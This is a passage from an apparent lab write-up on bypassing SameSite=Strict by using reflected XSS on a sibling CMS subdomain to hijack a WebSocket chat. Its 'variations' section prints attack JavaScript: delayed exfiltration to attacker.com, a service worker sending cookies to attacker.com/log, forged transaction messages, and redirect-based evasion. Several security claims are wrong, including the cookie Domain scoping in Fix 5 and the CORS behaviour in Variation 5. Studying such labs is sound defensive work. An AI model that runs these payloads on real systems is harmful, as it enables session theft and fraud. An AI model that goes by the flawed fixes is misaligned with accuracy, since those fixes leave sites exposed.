│  cross-site WebSocket hijacking     │
│  vulnerability by bypassing         │
│  SameSite=Strict restrictions       │
│  using a vulnerable sibling domain. │
│                                     │
│  Lab: SameSite Strict bypass via    │
│       sibling domain                │
│  Status: SOLVED ✓                   │
└─────────────────────────────────────┘
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab and login
         → wiener:peter
         ↓
Step 2: Study live chat feature
         → Send test messages
         → Understand WebSocket mechanism
         ↓
Step 3: Analyze WebSocket handshake
         → GET /chat with session cookie
         → Upgrade: websocket
         → No CSRF token visible
         ↓
Step 4: Test WebSocket message flow
         → Refresh chat → observe WebSockets history
         → Send "READY" → receives full chat history
         → CSWSH vector identified! 💡
         ↓
Step 5: Confirm CSWSH vulnerability (initial test)
         → Create PoC script on exploit server
         → WebSocket + fetch() to Collaborator
         → View exploit yourself
         ↓
Step 6: Check Collaborator
         → Poll for interactions
         → Receive chat data (but from new session)
         → Limited usefulness (not victim's history)
         ↓
Step 7: Verify SameSite=Strict protection
         → Check handshake request
         → NO session cookie sent ❌
         → Cross-site request blocked by Strict
         ↓
Step 8: Discover sibling domain
         → Find Access-Control-Allow-Origin headers
         → Reveals: cms-LAB-ID.web-security-academy.net
         → Same site as main domain! 💡
         ↓
Step 9: Explore CMS subdomain
         → Visit cms.* domain
         → Find login form
         → Different application/codebase
         ↓
Step 10: Test for XSS on CMS
          → Submit: <script>alert(1)</script>
          → Alert executes! ✓
          → Reflected XSS confirmed! 💥
         ↓
Step 11: Convert POST to GET
          → Send to Repeater
          → "Change request method"
          → Confirm XSS works via GET parameter
         ↓
Step 12: Copy and test GET URL
          → Right-click → Copy URL
          → Visit in browser
          → XSS triggers via URL ✓
         ↓
Step 13: Craft URL-encoded CSWSH payload
          → Recreate WebSocket hijacking script
          → Update with lab ID and Collaborator
          → URL encode entire script
         ↓
Step 14: Test full attack chain
          → Construct: cms.*/login?username=<ENCODED>&password=x
          → Visit URL yourself
          → XSS → WebSocket → Exfiltration
         ↓
Step 15: Verify attack success
          → Poll Collaborator
          → Receive YOUR chat history ✓
          → Check HTTP history for session cookie
          → Cookie WAS sent (same-site!) ✓
         ↓
Step 16: Create final exploit
          → document.location redirect to cms with XSS
          → Store on exploit server
         ↓
Step 17: Deliver exploit to victim
          → Click "Deliver exploit to victim"
          → Victim redirected to cms subdomain
          → XSS executes → CSWSH triggers
          → Victim's chat exfiltrated
         ↓
Step 18: Retrieve exfiltrated data
          → Poll Collaborator
          → Find victim's credentials in chat
          → Username: carlos
          → Password: s3cr3tp4ssw0rd
         ↓
Step 19: Login as victim
          → Use exfiltrated credentials
          → Successful login! ✓
         ↓
Step 20: Lab solved! 🎉
```

---

## ⚙️ **Understanding the Vulnerability**

### **Site vs Origin: The Critical Distinction**

```r
Understanding browser security boundaries:

ORIGIN:
└── Scheme + Domain + Port
    ├── https://app.example.com:443
    ├── https://cms.example.com:443
    └── https://api.example.com:443
        └── All DIFFERENT origins ✓

SITE (eTLD+1):
└── Scheme + eTLD+1
    └── eTLD = effective Top-Level Domain (public suffix)
    └── +1 = one additional label
    
    Examples:
    ├── https://app.example.com → eTLD=.com, +1=example → site=example.com
    ├── https://cms.example.com → eTLD=.com, +1=example → site=example.com
    └── https://api.example.com → eTLD=.com, +1=example → site=example.com
        └── All SAME site ✓

Public Suffix List:
└── Maintained list of "effective TLDs"
    ├── .com, .org, .net → public suffixes
    ├── .co.uk, .gov.au → public suffixes
    ├── .github.io, .herokuapp.com → public suffixes!
    └── Determines site boundaries

Examples with different eTLDs:
├── alice.github.io vs bob.github.io
│   └── eTLD=.github.io (+1=alice vs bob)
│   └── DIFFERENT sites ✓
│
├── app.example.com vs app.example.org
│   └── Different TLDs (.com vs .org)
│   └── DIFFERENT sites ✓
│
└── sub1.example.co.uk vs sub2.example.co.uk
    └── eTLD=.co.uk (+1=example)
    └── SAME site ✓

Why this matters for SameSite:
└── SameSite cookies use SITE, not ORIGIN
    ├── Same origin: Always allowed ✓
    ├── Same site: Allowed (depending on SameSite value)
    └── Cross-site: Blocked by Strict, restricted by Lax

The security gap:
└── Developers think in origins:
    "Different subdomains = different apps = isolated"
    
└── Browsers enforce at site level:
    "Different subdomains = still same site = cookies flow"
    
└── Mismatch = vulnerability! 💣
```

---

### **SameSite Cookie Behavior Deep Dive**

```r
SameSite=Strict behavior:

Same-site requests (cookies sent):
├── app.example.com → app.example.com ✓
├── app.example.com → api.example.com ✓
├── app.example.com → cms.example.com ✓ ← This lab exploits!
└── www.example.com → shop.example.com ✓

Cross-site requests (cookies NOT sent):
├── attacker.com → victim.com ❌
├── evil.net → app.example.com ❌
└── user1.github.io → user2.github.io ❌

Top-level vs sub-resource:
└── SameSite=Strict blocks ALL cross-site
    ├── POST forms ❌
    ├── GET navigations ❌
    ├── fetch/XHR ❌
    ├── Images ❌
    └── Frames ❌

Compare to SameSite=Lax:
├── Cross-site GET top-level: ✓ (exception)
├── Cross-site POST: ❌
└── Cross-site sub-resources: ❌

Why Strict is strongest:
└── No exceptions for cross-site requests
    └── Even "safe" GET navigations blocked
        └── Most restrictive setting available

The bypass via sibling:
└── Strict does NOT block same-site
    └── cms.site.com → app.site.com ✓
        └── Both same site (site.com)
            └── Cookies flow freely! 💣

This is BY DESIGN:
└── Subdomains need to interact
    ├── SSO across subdomains
    ├── Shared resources
    └── API calls between services
        └── But creates attack surface! ⚠️
```

---

### **Cross-Site WebSocket Hijacking (CSWSH) Explained**

```r
What is CSWSH?

WebSocket protocol:
└── Bidirectional communication channel
    ├── HTTP upgrade handshake
    ├── Persistent connection
    └── Real-time data exchange

WebSocket handshake:
GET /chat HTTP/1.1
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: <random>
Cookie: session=abc123 ← Authentication!

Server response:
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: <derived>

After handshake:
└── Persistent bidirectional connection
    ├── Client can send messages
    ├── Server can push messages
    └── No additional auth per message!

CSWSH attack:
└── If WebSocket relies only on cookies for auth:
    ├── No CSRF token in handshake
    ├── No additional validation
    └── Cookie-based auth vulnerable!

Attack flow:
1. Attacker creates WebSocket connection
2. Victim's browser sends session cookie
3. Server authenticates based on cookie
4. WebSocket connected to victim's data!
5. Attacker sends/receives victim's messages

Similar to CSRF, but:
├── CSRF: Single request/response
└── CSWSH: Persistent bidirectional channel
    └── Can exfiltrate ongoing conversations! 💣

Why no CSRF token?
└── WebSocket handshake is GET request
    └── Often overlooked in CSRF protection
        └── Developers rely on SameSite
            └── But sibling domains bypass it! ⚠️

Defense requirements:
├── CSRF token in handshake ✓
├── Origin validation ✓
├── SameSite=Strict + no sibling XSS ✓
└── Re-validate session after upgrade ✓
```

---

### **The XSS → CSWSH Attack Chain**

```r
Why XSS on sibling enables CSWSH:

Without XSS (direct attack):
attacker.com → victim.com/websocket
└── Cross-site request
    └── SameSite=Strict blocks cookie ❌
        └── No authenticated connection ❌

With XSS on sibling:
Step 1: attacker.com → cms.victim.com/xss
└── Cross-site, but public page (no auth needed) ✓

Step 2: XSS executes ON cms.victim.com
└── Payload context: cms.victim.com ✓

Step 3: XSS → app.victim.com/websocket
└── Same-site request! ✓
    └── SameSite=Strict allows cookies ✓
        └── Authenticated connection! ✓

The chain:
Cross-site → Same-site
└── First hop crosses site boundary (no cookies)
    └── Second hop within site (cookies flow)
        └── Bypasses SameSite protection! 💣

Why this works:
└── Browser evaluates EACH request separately
    ├── Request 1: attacker.com → cms.victim.com
    │   └── Cross-site, but public page ✓
    │
    └── Request 2: cms.victim.com → app.victim.com
        └── Same-site, authenticated! ✓

JavaScript execution context:
└── XSS runs in cms.victim.com context
    └── Has same privileges as legitimate cms scripts
        └── Can make same-site requests with cookies
            └── Indistinguishable from legitimate traffic! 💣

Why reflected XSS is perfect here:
├── No persistent XSS needed
├── Triggered via URL parameter
├── Single visit executes attack
├── Clean, simple delivery
└── Victim doesn't need to interact
```

---

### **URL Encoding in Nested Contexts**

```r
The encoding challenge:

Original CSWSH script:
<script>
var ws = new WebSocket('wss://site.net/chat');
ws.send("READY");
</script>

Injected into URL parameter:
https://cms.site.net/login?username=<SCRIPT>&password=x
                                    ↑
                            Must be URL encoded!

Why encoding is necessary:
├── Special characters break URL structure:
│   ├── < → parameter separator? ❌
│   ├── > → parameter terminator? ❌
│   ├── " → quote confusion? ❌
│   ├── & → parameter separator! 💣
│   └── = → key-value separator! 💣
│
└── Without encoding: URL malformed ❌

URL encoding rules:
├── < → %3C
├── > → %3E
├── " → %22
├── ' → %27
├── & → %26 ← CRITICAL!
├── = → %3D
├── Space → %20
├── / → %2F
└── : → %3A

Most critical: ampersand (&)
└── Unencoded & terminates username parameter!

Example:
?username=<script>fetch('http://evil.com')&x=1</script>

Without encoding:
└── username = <script>fetch('http://evil.com')
└── x = 1</script> ← Broken into separate param!

With encoding:
?username=<script>fetch('http://evil.com')%26x=1</script>
                                           ↑
└── username = entire script ✓
└── %26 decoded by server → & in script ✓

Double encoding?
└── Not needed in this lab
    └── Single URL encoding sufficient
        └── Server decodes once ✓

Encoding tools:
├── Burp Decoder ✓
├── Browser console: encodeURIComponent()
├── Online tools
└── Python: urllib.parse.quote()

Pro tip:
└── Encode entire payload as unit
    └── Test encoded version in browser
        └── Verify XSS still executes
            └── Then use in attack! ✓
```

---

### **WebSocket Protocol Security**

```r
WebSocket security considerations:

Origin header:
└── Sent in handshake
    ├── Indicates requesting origin
    └── Server SHOULD validate
        └── But often doesn't! ⚠️

GET /chat HTTP/1.1
Origin: https://evil.com
Upgrade: websocket

Server should check:
if (origin !== 'https://legitimate.com') {
    return 403;
}

But many servers:
└── Ignore Origin header
    └── Rely only on session cookie
        └── Vulnerable to CSWSH! 💣

Sec-WebSocket-Key:
└── Random nonce
    ├── Prevents cache poisoning
    ├── NOT a security token!
    └── Server computes Accept header from it

Connection upgrade:
└── HTTP → WebSocket
    └── Initial request is HTTP
        └── Subject to same security as HTTP
            └── Needs CSRF protection! ✓

Message-level security:
└── After handshake, no per-message auth
    ├── Server assumes connection is valid
    └── Entire conversation trusted
        └── Initial auth is critical! ⚠️

Defense in depth:
├── Origin validation ✓
├── CSRF tokens in handshake ✓
├── SameSite=Strict ✓
├── Re-validate session periodically ✓
└── Encrypt sensitive data in messages ✓

This lab's gap:
└── No CSRF token
    └── No Origin validation
        └── Only SameSite=Strict
            └── Bypassed by sibling XSS! 💣
```

---

### **The Sibling Domain Attack Surface**

```r
Why sibling domains are dangerous:

Organizational structure:
└── Large companies have many subdomains:
    ├── www.company.com (marketing)
    ├── app.company.com (main application)
    ├── api.company.com (API gateway)
    ├── blog.company.com (WordPress)
    ├── help.company.com (support portal)
    ├── cms.company.com (content management)
    ├── cdn.company.com (static assets)
    └── admin.company.com (admin panel)

Different teams, different codebases:
├── Main app: Secure, audited, tested ✓
├── Marketing site: Third-party CMS
├── Blog: WordPress (plugins?)
└── Help portal: Legacy code
    └── ANY vulnerability on ANY subdomain...
        └── Affects ALL subdomains! 💣

Common vulnerabilities on sibling domains:
├── Reflected XSS (this lab) ✓
├── Stored XSS
├── Open redirects
├── CORS misconfigurations
├── Subdomain takeovers
└── Outdated software/plugins

Why they're overlooked:
├── "It's just the marketing site"
├── "Blog doesn't touch user data"
├── "CMS is on separate server"
└── "Different codebase = isolated"
    └── All WRONG in context of SameSite! ❌

The security boundary mismatch:
├── Developers think: subdomain = boundary
├── Browsers enforce: eTLD+1 = boundary
└── Vulnerabilities flow across subdomains! 💣

Real-world examples:
└── Main app: app.bank.com (secure)
    └── Help site: help.bank.com (XSS)
        └── XSS can attack app.bank.com
            └── Steal banking session! 💥

Attack amplification:
└── Single XSS on marketing.company.com:
    ├── Access to app.company.com sessions
    ├── Access to api.company.com tokens
    ├── Access to admin.company.com controls
    └── Complete site compromise! 💣

Defense requirement:
└── Secure ALL subdomains equally
    ├── Not just main application
    ├── Include marketing, blogs, portals
    └── One weak link = full compromise! ⚠️
```

---

### **Defense Mechanisms and Their Limitations**

```r
How to prevent this attack:

1. Eliminate sibling domain vulnerabilities:
   └── Audit ALL subdomains
       ├── Not just main application
       ├── Include third-party sites
       ├── WordPress, CMSs, marketing sites
       └── Fix ALL XSS, open redirects, etc.

2. Origin validation on WebSocket:
   └── Server checks Origin header
       GET /chat HTTP/1.1
       Origin: https://app.example.com
       
       if (origin !== ALLOWED_ORIGIN) {
           return 403;
       }
       
   └── Problem: cms.example.com might be legit origin!
       └── If cms needs WebSocket too
           └── Hard to distinguish attack! ⚠️

3. CSRF tokens on WebSocket handshake:
   └── Require token in URL or header
       GET /chat?csrf=TOKEN HTTP/1.1
       
   └── Validate against session
       └── Attacker can't forge token ✓
       
   └── Best practice! 🛡️

4. Separate cookies per subdomain:
   └── Set cookie with specific domain:
       Set-Cookie: session=abc; Domain=app.example.com
       
   └── Cookie ONLY sent to app subdomain
       └── Not sent to cms subdomain ✓
       
   └── Problem: breaks legitimate cross-subdomain flows
       └── SSO, shared resources, etc. ⚠️

5. Use different parent domains:
   └── Main app: app.example.com
   └── Marketing: www.example-marketing.com
   
   └── Different sites → no cookie sharing ✓
   
   └── Problem: brand confusion, cost, complexity ⚠️

6. Subdomain isolation strategies:
   └── Treat subdomains as untrusted:
       ├── Never rely on SameSite alone
       ├── Always use CSRF tokens
       ├── Validate Origin
       └── Re-authenticate critical actions
       
   └── Defense in depth! 🛡️

7. Content Security Policy:
   └── Restrict script sources
       Content-Security-Policy: script-src 'self'
       
   └── Blocks inline XSS
       └── But not always applicable (CMSs need inline) ⚠️

8. Regular subdomain audits:
   └── Continuous scanning
       ├── All subdomains
       ├── Automated + manual testing
       └── Include in bug bounty scope
       
   └── Proactive discovery! ✓

Why SameSite=Strict alone is insufficient:
└── Protects against external attackers ✓
    └── But NOT against same-site attacks ❌
        └── Need additional defenses! 🛡️

The fundamental limitation:
└── SameSite works at site level
    └── Not origin level
        └── Entire site shares fate
            └── Weakest link matters! ⚠️
```

---

## 🚀 **Attack Variations**

### **Variation 1: Stored XSS on Sibling Domain**

```r
If sibling has stored XSS instead of reflected:

Stored XSS location:
└── cms.example.com/comments
    └── POST comment with XSS payload
        └── Payload stored in database
            └── Executes for all visitors ✓

Advantages over reflected XSS:
├── No URL encoding needed
├── Cleaner attack delivery
├── Persists (affects multiple victims)
└── Harder to detect

Attack delivery:
<script>
    document.location = "https://cms.example.com/post/123";
    // Post 123 contains stored CSWSH payload
</script>

Simpler exploit:
└── Just redirect to page with stored XSS
    └── No complex URL parameters
        └── Stealthier attack! 💣

Defensive consideration:
└── Stored XSS is higher impact
    └── Persists until cleaned
        └── Affects all users
            └── More critical to prevent! ⚠️
```

---

### **Variation 2: Open Redirect Chain**

```r
If sibling has open redirect:

Open redirect on cms subdomain:
GET /redirect?url=<target>
→ 302 Location: <target>

Attack chain:
1. Attacker page → cms.example.com/redirect?url=evil
2. Redirect to evil.com (cross-site, no cookies)
3. But what if evil.com has XSS?

Better chain:
1. Find XSS on external domain (evil.com)
2. Open redirect from cms → evil.com
3. Evil.com XSS redirects back to cms with payload
4. Circular attack!

Limitation:
└── Open redirect alone doesn't bypass SameSite
    └── Still need XSS somewhere
        └── But can complicate detection! 💡
```

---

### **Variation 3: Subdomain Takeover**

```r
Complete sibling domain control:

Subdomain takeover scenario:
└── blog.example.com pointed to GitHub Pages
    └── But GitHub Pages account deleted
        └── Subdomain unclaimed!
            └── Attacker claims it! 💣

Attack:
1. Take over old.example.com
2. Host XSS payload there
3. Complete same-site attack capability
4. Persistent threat!

How it happens:
├── DNS record: old.example.com → old-hosting.com
├── Hosting account cancelled
├── DNS record remains
└── Attacker creates account on old-hosting.com
    └── Claims old.example.com ✓

Prevention:
└── Audit all DNS records
    ├── Remove unused subdomains
    ├── Monitor for takeover attempts
    └── Use CNAME verification
```

---

### **Variation 4: Cookie Bombing**

```HTTP
If attacker controls sibling:

Cookie bombing attack:
└── Attacker sets many cookies from cms subdomain
    └── All sent to app subdomain (same site)
        └── Exceeds header size limit
            └── Breaks application! 💣

From cms.example.com:
Set-Cookie: bomb1=<4000 bytes>
Set-Cookie: bomb2=<4000 bytes>
Set-Cookie: bomb3=<4000 bytes>
...

Request to app.example.com:
GET /app
Cookie: session=abc; bomb1=...; bomb2=...; bomb3=...
        ↑
    Request header too large! ❌

Result:
└── Application fails
    └── Denial of service
        └── Or security bypass! ⚠️

Not directly CSWSH:
└── But demonstrates sibling domain risk
    └── Any sibling control = site-wide impact! 💣
```

---

### **Variation 5: CORS Misconfiguration Exploitation**

```HTTP
If sibling has CORS issue:

Overly permissive CORS on cms:
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true

Attack:
1. XSS on cms subdomain
2. Make credentialed request to app subdomain
3. Read response (same-site)
4. Exfiltrate data

CORS check:
└── Browser allows credentialed cross-origin requests
    └── Within same site
        └── Can read responses! 💣

Example:
fetch('https://app.example.com/api/data', {
    credentials: 'include'  // Send cookies
}).then(r => r.json())
  .then(data => exfiltrate(data));

Same-site privilege:
└── CORS restrictions relaxed for same-site
    └── XSS can access APIs freely
        └── Data exfiltration! 💥
```

---

### **Variation 6: WebSocket Message Injection**

```javascript
Beyond just receiving messages:

If WebSocket allows message sending:
var ws = new WebSocket('wss://app.example.com/chat');
ws.onopen = function() {
    // Not just READY
    ws.send(JSON.stringify({
        action: 'sendMessage',
        to: 'admin',
        content: 'Please reset my password to: hacked123'
    }));
    
    // Or impersonate victim
    ws.send(JSON.stringify({
        action: 'approveTransaction',
        amount: 1000000,
        to: 'attacker-account'
    }));
};

Active attacks:
├── Send messages as victim
├── Trigger actions
├── Modify data
└── Impersonate user

Much more dangerous than just reading:
└── Active exploitation
    └── Not just exfiltration
        └── Full CSRF via WebSocket! 💥
```

---

### **Variation 7: Multi-Step Redirect Chain**

```HTML
Complex delivery for evasion:

Step 1: Attacker page
<script>
    document.location = "https://legit-redirect.com/out
        ?url=https://cms.example.com/login?username=<XSS>";
</script>

Step 2: Legit redirect site
→ Redirects to cms subdomain
→ Makes tracking harder

Step 3: CMS reflects XSS
→ Executes CSWSH

Evasion benefits:
├── Hides true destination
├── Uses legitimate redirector
├── Complicates forensics
└── Bypasses URL filtering

Real-world:
└── Use URL shorteners
    └── Bit.ly, TinyURL, etc.
        └── Hide malicious URL
            └── Social engineering easier! 💡
```

---

### **Variation 8: Time-Delayed Exfiltration**

```javascript
Avoid immediate detection:

Delayed exfiltration:
var ws = new WebSocket('wss://app.example.com/chat');
var messages = [];

ws.onmessage = function(event) {
    messages.push(event.data);
};

// Wait to collect all messages
setTimeout(function() {
    // Exfiltrate after delay
    fetch('https://attacker.com', {
        method: 'POST',
        body: JSON.stringify(messages)
    });
}, 30000);  // 30 second delay

Benefits:
├── Less traffic correlation
├── Victim may have closed page
├── Logs less suspicious
└── Harder to trace

Chunked exfiltration:
└── Send one message at a time
    └── With random delays
        └── Evades rate limiting
            └── Looks like normal traffic! 💡
```

---

### **Variation 9: Multiple Sibling Vulnerabilities**

```
Chain multiple sibling issues:

Scenario:
├── cms.example.com → XSS
├── api.example.com → CORS issue
└── admin.example.com → weak auth

Attack chain:
1. XSS on cms subdomain
2. Use CORS issue to read API data
3. Use API data to attack admin panel
4. Full site compromise!

Reconnaissance:
└── Audit ALL subdomains
    ├── Find multiple vectors
    ├── Chain for maximum impact
    └── Complete site takeover! 💣

Defense requirement:
└── Secure weakest link
    └── Not just individual subdomains
        └── Think holistically! 🛡️
```

---

### **Variation 10: Service Worker Persistence**

```javascript
Long-term sibling control:

If XSS on sibling can install service worker:
// From cms.example.com XSS
navigator.serviceWorker.register('/evil-sw.js');

Service worker (evil-sw.js):
self.addEventListener('fetch', function(event) {
    // Intercept ALL requests to *.example.com
    if (event.request.url.includes('example.com')) {
        event.respondWith(
            fetch('https://attacker.com/log', {
                method: 'POST',
                body: JSON.stringify({
                    url: event.request.url,
                    cookies: event.request.headers.get('Cookie')
                })
            }).then(() => fetch(event.request))
        );
    }
});

Persistence:
└── Service worker survives page reload
    └── Continues intercepting requests
        └── Even after XSS page closed
            └── Long-term compromise! 💣

Scope:
└── Service worker from cms.example.com
    └── Can intercept requests to:
        ├── cms.example.com ✓
        ├── app.example.com? (depends on scope)
        └── May be limited by origin

Check scope restrictions:
└── Service worker scope usually origin-bound
    └── But worth testing! 💡
```

---
---

## 🛡️ **How to Fix (Secure Code)**

### **Fix 1: Implement CSRF Tokens on WebSocket Handshake**

```javascript
// ✅ SECURE - Require CSRF token for WebSocket connection

// Server generates token (tied to session)
app.get('/chat-page', (req, res) => {
    req.session.wsToken = generateSecureRandom(32);
    res.render('chat', {
        wsToken: req.session.wsToken
    });
});

// Client includes token in handshake
const wsToken = document.getElementById('ws-token').value;
const ws = new WebSocket(`wss://app.example.com/chat?token=${wsToken}`);

// Server validates token
io.on('connection', (socket) => {
    const token = socket.handshake.query.token;
    const session = getSession(socket.handshake.headers.cookie);
    
    if (!session || token !== session.wsToken) {
        socket.disconnect();
        return;
    }
    
    // Valid connection
    attachToUserChat(socket, session.userId);
});

Why this prevents attack:
├── Attacker cannot obtain token (XSS can't read HttpOnly session)
├── Token tied to specific session
├── Token required for connection
└── CSWSH blocked even on same-site! ✓

Alternative: token in header
const ws = new WebSocket('wss://app.example.com/chat');
ws.onopen = function() {
    ws.send(JSON.stringify({
        type: 'auth',
        token: wsToken
    }));
};
```

---

### **Fix 2: Strict Origin Validation**

```javascript
// ✅ SECURE - Validate Origin header strictly

const ALLOWED_ORIGINS = [
    'https://app.example.com'
    // Do NOT include cms.example.com!
];

io.on('connection', (socket) => {
    const origin = socket.handshake.headers.origin;
    
    if (!ALLOWED_ORIGINS.includes(origin)) {
        console.log(`Rejected WebSocket from origin: ${origin}`);
        socket.disconnect();
        return;
    }
    
    // Valid origin, proceed
});

Why this helps:
├── Blocks connections from cms subdomain
├── Even if XSS exists on sibling
├── Origin header cannot be spoofed from browser
└── Defense in depth! 🛡️

Limitation:
└── If cms legitimately needs WebSocket access
    └── Cannot include it in allowed list
        └── Breaks legitimate functionality ⚠️

Best combined with CSRF tokens:
└── Origin validation + CSRF tokens
    └── Both required
        └── Strongest protection! ✓
```

---

### **Fix 3: Eliminate XSS on All Subdomains**

```javascript
// ✅ SECURE - Fix XSS vulnerability on CMS

// ❌ VULNERABLE - Direct reflection
app.post('/login', (req, res) => {
    const username = req.body.username;
    res.send(`<h2>Invalid username: ${username}</h2>`);
    //                              ↑ XSS! ❌
});

// ✅ SECURE - Proper escaping
const escapeHtml = require('escape-html');

app.post('/login', (req, res) => {
    const username = escapeHtml(req.body.username);
    res.send(`<h2>Invalid username: ${username}</h2>`);
    //                              ↑ Escaped! ✓
});

// Or use templating with auto-escaping
app.set('view engine', 'ejs');  // Auto-escapes by default

app.post('/login', (req, res) => {
    res.render('login-error', {
        username: req.body.username  // EJS escapes automatically
    });
});

Content Security Policy:
res.setHeader(
    'Content-Security-Policy',
    "default-src 'self'; script-src 'self'"
);

Why eliminating XSS is critical:
└── Stops attack at root cause
    └── No XSS = no sibling domain bypass
        └── Most effective defense! 🛡️

Comprehensive approach:
├── Audit ALL subdomains
├── Fix ALL XSS (reflected + stored)
├── Implement CSP
├── Input validation
└── Output encoding
```

---

### **Fix 4: Use Different Parent Domains**

```
// ✅ SECURE - Separate domains entirely

Current (vulnerable):
├── app.example.com (main app)
└── cms.example.com (marketing)
    └── Same site: example.com ❌

Secure alternative:
├── app.example.com (main app)
└── marketing.examplecms.com (separate domain)
    └── Different sites! ✓

Why this works:
└── Different eTLD+1
    ├── app → example.com
    ├── marketing → examplecms.com
    └── Different sites = no cookie sharing! ✓

Benefits:
├── Complete isolation
├── XSS on marketing cannot attack app
├── No same-site cookie sharing
└── Maximum security! 🛡️

Drawbacks:
├── Brand confusion
├── Additional domain costs
├── SSL certificate management
├── SEO implications
└── Complexity

Alternative: Subdomain isolation
├── app.example.com (main)
└── cms-external.com (third-party)
    └── Don't use subdomains for untrusted apps
```

---

### **Fix 5: Scope Session Cookies to Specific Subdomains**

```HTTP
# ✅ SECURE - Domain-specific cookies

# ❌ VULNERABLE - Cookie sent to all subdomains
Set-Cookie: session=abc123; Domain=.example.com; Secure; HttpOnly; SameSite=Strict
                            ↑
                    Dot prefix = all subdomains share! ❌

# ✅ SECURE - Cookie only for specific subdomain
Set-Cookie: session=abc123; Domain=app.example.com; Secure; HttpOnly; SameSite=Strict
                            ↑
                    No dot = specific subdomain only! ✓

Why this helps:
└── Cookie ONLY sent to app.example.com
    ├── NOT sent to cms.example.com ✓
    ├── NOT sent to api.example.com ✓
    └── Sibling XSS cannot access! ✓

Browser behavior:
├── Request to app.example.com → sends cookie ✓
├── Request to cms.example.com → NO cookie ✓
└── XSS on cms cannot use session! ✓

Limitations:
└── Breaks cross-subdomain features:
    ├── Single Sign-On (SSO)
    ├── Shared API access
    └── Cross-subdomain resources

Alternative: Multiple session cookies
├── app-session for app subdomain
├── api-session for API subdomain
└── Each scoped separately ✓
```

---

### **Fix 6: WebSocket-Specific CSRF Protection**

```javascript
// ✅ SECURE - WebSocket-specific token generation

// Generate one-time WebSocket token
app.get('/get-ws-token', requireAuth, (req, res) => {
    const wsToken = generateSecureRandom(32);
    
    // Store with expiration (5 minutes)
    redis.setex(`ws:${wsToken}`, 300, req.session.userId);
    
    res.json({ wsToken });
});

// Client fetches token before connecting
fetch('/get-ws-token')
    .then(r => r.json())
    .then(data => {
        const ws = new WebSocket(
            `wss://app.example.com/chat?token=${data.wsToken}`
        );
    });

// Server validates and consumes token (one-time use)
io.on('connection', async (socket) => {
    const token = socket.handshake.query.token;
    
    // Check if token exists
    const userId = await redis.get(`ws:${token}`);
    if (!userId) {
        socket.disconnect();
        return;
    }
    
    // Delete token (one-time use)
    await redis.del(`ws:${token}`);
    
    // Valid connection
    attachToUserChat(socket, userId);
});

Why one-time tokens are stronger:
├── Token usable only once
├── Even if attacker obtains token, cannot reuse
├── Expires quickly (5 minutes)
└── Strongest WebSocket CSRF protection! 🛡️

XSS still cannot bypass:
└── Token fetch requires authenticated session
    └── XSS on sibling cannot make authenticated fetch
        └── Different origin, CORS blocks it! ✓
```

---
